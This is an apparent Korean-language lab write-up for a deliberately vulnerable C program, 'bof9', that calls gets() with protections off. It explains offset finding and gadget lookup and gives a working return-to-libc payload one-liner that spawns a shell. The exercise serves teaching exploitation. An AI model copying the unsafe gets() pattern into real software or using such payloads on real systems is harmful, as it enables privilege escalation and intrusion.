








# bof9

<details>
<summary>bof9.c</summary>

```c
// AFTER => bof8.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#define BUF_SIZE 8

// ASLR OFF
// STACK-PROTECTOR OFF
// STACK-EXECUTION OFF

char * binsh = "/bin/sh";

void vuln(void) {
    char buf[BUF_SIZE];

    if (setreuid(1010, 1010)) {
        perror("setuid");
        exit(1);
    }
    if (setregid(1010, 1010)) {
        perror("setgid");
        exit(1);
    }
    printf("system:%p\n", system);
    printf("binsh:%p\n", binsh);
    gets(buf);
    printf("Hello %s!\n", buf);
}

int main(void) {
    vuln();
    return 0;
}
```

</details>

위 코드를 보면 버퍼오버플로우에 취약한 gets함수가 존재한다는 것을 알 수 있다. 그리고 코드 내에는 쉘을 실행시킬만한 방법이 존재하지 않는 것 같다. 다음과 같은 방식으로 쉘을 탈취해보자.

1. buf부터 ret의 주소값의 차이를 알아낸다.
2. ret을 (pop rdi ; ret)의 값이 있는 주소로 바꾼다.
3. ret 위 8바이트에 /bin/sh의 문자열로 바꾼다.
4. 그 위 8바이트에 system함수의 주소로 바꾼다.

그러면 위와 같은 순서로 해보자.

1
===

ret주소


gets의 rdi 주소(buf의 주소) -> rbp - 0x8



rbp - 0x8의 주소



두 주소의 차이



2
===

```
ROPgadget.py --binary /tmp/2.23/lib/libc.so.6 | grep 'pop rdi ; ret'
```

위를 실행한 결과 아래 그림에서 0x0000000000021102이라는 주소에 pop rdi ; ret값이 들어있는 것을 확인 할 수 있다.



gdp내에서 grep pop을 한 결과 /tmp/2.23/lib/libc.so.6'(0x7ffff7a0d000-0x7ffff7bcd000)이러한 곳에 존재한다는 것을 확인할 수 있다. 그 밑에는 vmmap을 통해 메모리를 확인해 보았다.



따라서 위 두 과정을 통해 실질적으로 ./bof9를 실행시켰을 때 pop rdi ; ret이 존재하는 주소는 0x7ffff7bcd000 + 0x0000000000021102 = **0x7ffff7a2e102**인 것을 확인 할 수 있다.

3, 4
===

bof9를 실행시켜 binsh의 주소값과 system의 주소값을 알 수 있다.



페이로드
===

3~4번의 과정을 통해 다음과 같은 페이로드를 얻을 수 있다.

```
(python -c "print 'x'*16 + '\x02\xe1\xa2\xf7\xff\x7f\x00\x00' + '\x04\x60\x55\x55\x55\x55\x00\x00' + '\x90\x23\xa5\xf7\xff\x7f'" ; cat) | ./bof9
```

+exit을 했을 때 세그폴트가 뜨는 이유가 궁금하다. 


